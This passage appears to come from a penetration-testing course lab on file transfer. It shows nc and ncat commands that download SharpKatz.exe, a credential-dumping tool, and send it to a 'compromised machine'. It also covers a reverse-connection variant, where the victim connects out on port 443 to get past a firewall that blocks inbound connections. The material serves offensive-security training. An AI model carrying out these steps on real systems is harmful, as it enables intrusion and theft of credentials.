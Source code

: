 From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

  Netcat - Attack Host - Sending File to Compromised machine

```shell
Pwn1Sec@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
Pwn1Sec@htb[/htb]$ # Example using Original Netcat
Pwn1Sec@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine

  Ncat - Attack Host - Sending File to Compromised machine

```shell
Pwn1Sec@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
Pwn1Sec@htb[/htb]$ # Example using Ncat
Pwn1Sec@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat

  Attack Host - Sending File as Input to Netcat

```shell
Pwn1Sec@htb[/htb]$ # Example using Original Netcat
Pwn1Sec@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File

  Compromised Machine Connect to Netcat to Receive the File

```shell
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```
